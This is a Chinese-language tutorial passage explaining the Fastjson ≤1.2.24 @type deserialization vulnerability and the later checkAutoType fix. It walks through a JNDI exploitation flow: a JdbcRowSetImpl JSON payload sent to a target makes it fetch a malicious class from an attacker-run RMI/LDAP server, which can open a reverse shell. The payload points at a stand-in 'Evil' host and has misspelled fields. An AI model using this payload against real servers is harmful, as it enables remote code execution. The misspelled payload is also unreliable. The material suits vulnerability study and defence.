 ## **小于等于1.2.24版本**
请求包的请求体JSON字符会带有一个@type来标记其字符的原始类型，在反序列化的时候会读取这个@type，来把JSON内容反序列化成@type指定的对象，并且会调用这个对象的setter或者getter方法。
此时@type的类有可能被恶意构造，只需要合理构造一个JSON，使用@type指定一个想要的攻击类库就可以实现攻击。

常见的有sun官方提供的一个类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法支持传入一个rmi的源或ldap源，只要解析其中的url就会支持远程调用，
因此整个漏洞复现的原理过程就是：
```
1. 攻击者（我们）访问存在fastjson漏洞的目标靶机网站，通过burpsuite抓包改包，
以json格式添加com.sun.rowset.JdbcRowSetImpl恶意类信息发送给目标机。
2. 存在漏洞的靶机对json反序列化时候，会加载执行我们构造的恶意信息(访问rmi服务器)，
靶机服务器就会向rmi服务器请求待执行的命令。
也就是靶机服务器问rmi服务器，（靶机服务器）需要执行什么命令啊？
3. rmi 服务器请求加载远程机器的class（这个远程机器是我们搭建好的恶意站点，
提前将漏洞利用的代码编译得到.class文件，并上传至恶意站点），
得到攻击者（我们）构造好的命令（ping dnslog或者创建文件或者反弹shell等）
4. rmi将远程加载得到的class（恶意代码），作为响应返回给靶机服务器。
5. 靶机服务器执行了恶意代码，被攻击者成功利用。
```
```
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceNamw": "ladp:xxx:1099/Evil",
    "autoCommit":"true"
}
```
![](https://img-bc.icode.best/26de9fc36b2940c6882491c5453db571.png)



在 Fastjson1.2.25 中使用了 checkAutoType 来修复1.2.22-1.2.24中的漏洞，其中有个 autoTypeSupport 默认为 False。当 autoTypeSupport 为 False 时，先黑名单过滤，再白名单过滤，若白名单匹配上则直接加载该类，否则报错。当 autoTypeSupport 为 True 时，先白名单过滤，匹配成功即可加载该类，否则再黑名单过滤。对于开启或者不开启，都有相应的绕过方法。​


